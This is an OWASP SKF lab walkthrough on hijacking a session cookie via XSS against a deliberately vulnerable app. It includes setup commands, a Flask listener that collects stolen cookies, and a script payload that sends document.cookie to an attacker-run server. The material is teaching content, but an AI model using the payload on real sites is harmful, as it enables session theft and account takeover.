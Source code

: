# Python - HttpOnly Session Hijacking XSS

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

{% hint style="warning" %}
This exercise does not work for chrome!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](../../.gitbook/assets/session-hijacking-xss-1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/session-hijacking-xss-2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/session-hijacking-xss-3.png)

![](../../.gitbook/assets/session-hijacking-xss-4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/session-hijacking-xss-5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](../../.gitbook/assets/session-hijacking-xss-6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
